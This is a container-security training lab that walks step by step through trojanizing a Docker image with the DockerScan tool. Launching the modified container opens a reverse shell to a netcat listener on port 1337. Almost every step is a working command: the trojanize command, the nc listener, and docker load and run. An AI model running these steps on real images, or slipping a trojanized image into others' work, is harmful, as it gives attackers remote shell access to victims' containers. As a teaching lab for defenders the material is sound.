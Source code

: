 # Trojanized Docker Images - DockerScan
> A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container

### **Lab Image : Containers**

---

* Step 1: Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Step 2: Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```


* Step 3: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```

* Step 4: Trojanize the saved docker to create a `.tar` file

>> Note: `$(serverip)` will automatically takes your server ip. 

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l $(serverip) -p 1337 -o abhaybhargav-vul_flask-trojanized
```

* Step 5: Run `netcat` command 

```commandline
nc -v -k -l $(serverip) 1337
```

* Step 6: Switch to the left panel using `ctrl + b` and then `left arrow key` 

* Step 7: Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

Step 8: When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

* Step 9: Switch to the right panel using `ctrl + b` and then `right arrow key`

* Step 10: Type `ls` command and weather you have achieved persistence through the reverse shell.

```commandline
ls
```


### Teardown:

* Step 11: Exit from the `reverse shell` type `ctrl + c`

```commandline
ctrl + c
```

* Step 12: Exit from the `tmux` shell

```commandline
exit
```

```commandline
exit
```

* Step 13: Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://github.com/cr0hn/dockerscan
